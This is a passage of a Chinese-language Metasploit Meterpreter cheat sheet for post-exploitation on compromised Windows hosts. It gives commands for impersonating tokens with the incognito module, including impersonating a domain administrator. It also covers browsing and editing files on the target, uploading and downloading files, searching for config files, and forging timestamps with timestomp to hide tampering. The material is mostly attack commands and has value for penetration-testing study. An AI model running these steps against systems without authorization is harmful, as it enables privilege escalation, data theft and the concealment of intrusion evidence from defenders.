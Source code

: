 ```bash
```

**令牌假冒**

在用户登录 windows 操作系统时,系统都会给用户分配一个令牌(Token),当用户访问系统资源时都会使用这个令牌进行身份验证,功能类似于网站的 session 或者 cookie.

msf 提供了一个功能模块可以让我们假冒别人的令牌,实现身份切换,如果目标环境是域环境,刚好域管理员登录过我们已经有权限的终端,那么就可以假冒成域管理员的角色.
```bash
getuid                              # 查看当前用户
use incognito                       # 进入该模块
list_tokens -u                      # 查看存在的令牌
impersonate_token [Username]        # 令牌假冒
# 注意用户名的斜杠需要写两个.

getuid                              # 查看是否切换成功
```

---

### 文件操作

**操作文件系统**
```bash
ls                  # 列出当前路径下的所有文件和文件夹.
pwd/getwd           # 查看当前路径
search              # 搜索文件,使用 search -h 查看帮助.
cat                 # 查看文件内容,比如 cat test.txt.
edit                # 编辑或者创建文件.和 Linux 系统的 vm 命令类似,同样适用于目标系统是 windows 的情况.
rm                  # 删除文件.
cd                  # 切换路径.
mkdir               # 创建文件夹.
rmdir               # 删除文件夹.
getlwd/lpwd         # 查看自己系统的当前路径.
lcd                 # 切换自己当前系统的目录.
lls                 # 显示自己当前系统的所有文件和文件夹.
```

**上传和下载**

```bash
upload [file] [destination]         # 上传文件到 Windows 主机
# 注意:使用 -r 参数可以递归上传上传目录和文件

download [file] [path to save]      # 从 windows 主机下载文件
# 注意:Windows 路径要使用双斜线
# 如果我们需要递归下载整个目录包括子目录和文件,我们可以使用 download -r 命令
```

**搜索文件**

```bash
search -f *config*
```

**改变文件时间**

```bash
timestomp -v a.txt                  # 查看 a 的时间戳
timestomp a.txt -f b.txt            # 使用 b 的时间覆盖 a 的时间
```

---